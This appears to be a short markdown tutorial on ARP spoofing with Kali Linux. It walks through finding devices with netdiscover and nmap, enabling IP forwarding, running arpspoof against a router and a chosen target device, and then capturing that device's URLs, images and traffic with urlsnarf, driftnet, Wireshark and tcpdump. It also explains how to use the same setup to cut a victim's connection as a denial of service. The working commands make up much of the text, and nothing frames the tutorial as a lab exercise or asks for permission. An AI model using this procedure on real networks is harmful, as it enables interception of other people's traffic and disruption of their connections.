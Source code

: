# Arp-spoofing


This tutorial assumes you are using kali, where these programs are already installed.

1. Run nmap or netdiscover to list the devices on the network.
 - `netdiscover -r 192.168.1.0/24` or whatever network range it is. This is good because it is live, and it updates as soon as new devices connect to the network.
```
nmap -vvv 192.168.1.0/24
```

2. 
```
echo 1 > /proc/sys/net/ipv4/ip_forward
``` 
this command is fundamental. Without changing it to `1`you will only block the traffic, but not forward it. So that will bring down the connection for that person. Denial of service. If you want to do that make sure it is set to 0. If you want to intercept it make sure it is set to 1.
3. 
```
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.105
```
  - `-i` is the interface flag. In this example we choose the wlan0 interface. Run `ifconfig` to see which interfaces you have available.
 - `-t` the target flag. It specifies your target. The first address is the router, and the second is the specific device you want to target.
4. Read the traffic
 - So now you are intercepting the traffic. You have a few choices how to read it. 
 - use urlsnarf. 
```
urlsnarf -i wlan0
``` 
it will output all URLs.
```
driftnet -i wlan0
```
Driftnet is pretty cool. It let's you see all the images that is loaded in the targets browser in real time. Not very useful, but kind of cool.
 - wireshark. Just open wireshark and select the interface and start capturing.
 - Tcpdump. Also awesome.

